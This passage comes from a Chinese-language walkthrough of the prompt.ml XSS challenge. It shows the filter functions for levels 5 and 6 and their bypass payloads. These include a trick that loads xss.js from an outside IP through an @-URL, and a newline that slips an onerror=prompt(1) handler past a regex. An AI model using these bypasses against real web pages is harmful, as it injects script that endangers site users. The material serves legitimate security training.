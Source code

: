 ```javascript
只能引用 prompt.ml 下的 js
//prompt.ml%2f@35.201.152.114/public/xss.js
一直不弹窗，打开 F12，发现了下面这个，原来是被Chrome拦截了
Provisional headers are shown
```

#### 5. 未多行匹配

```javascript
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
} 
```

```javascript
没开启多行匹配，换行可绕过一些限制，这一点在很多时候都有大用
type=image	定义图像形式的提交按钮。
"type=image src onerror
="prompt(1)
```

#### 6. form 属性

```javascript
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}  
```
